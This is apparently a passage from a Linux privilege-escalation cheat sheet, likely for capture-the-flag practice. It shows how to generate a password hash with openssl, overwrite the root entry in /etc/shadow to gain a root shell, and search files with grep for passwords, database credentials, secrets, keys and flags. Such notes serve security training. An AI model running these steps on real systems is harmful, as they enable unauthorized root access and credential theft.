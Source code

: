```bash

# -6: sha512 algorithm
# password: this is the root password
openssl passwd -6 salt=salt password

# output
$6$salt$IxDD3jeSOb5eB1CX5LBsqZFVkJdido3OUILO5Ifz5iwMuTS4XMS130MTSuDDl3aCI6WouIL9AjRbLCelDCy.g.
```

After generating the hash, update the root password hash to this hash (**`$6$salt$I…`**) in **`/etc/shadow`**.

```bash
root:$6$salt$IxDD3jeSOb5eB1CX5LBsqZFVkJdido3OUILO5Ifz5iwMuTS4XMS130MTSuDDl3aCI6WouIL9AjRbLCelDCy.g.:19532:0:99999:7:::
```

Now we can get a shell as root with the password "password".

```bash
su root
# password: password
```

<br />

## Sensitive Contents in Files

```sh
# -r: recursive
# -n: line number
# -i: ignore case
grep -rni root ./
grep -rni password ./
grep -rni passwd ./
grep -rni db_password ./
grep -rni db_passwd ./

# Find user's information
grep -rni root ./
grep -rni john ./

# -e: OR Searching
grep -re admin -re root -re credential -re password ./
grep -re secret -re key ./

# -v: Exclude
grep -rni password -v node_modules ./

# -E: regex
grep -riE 'flag{.*}' ./

# IP Address Searching
grep -rE -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" ./

# -h: no output filenames
grep -h root ./
```
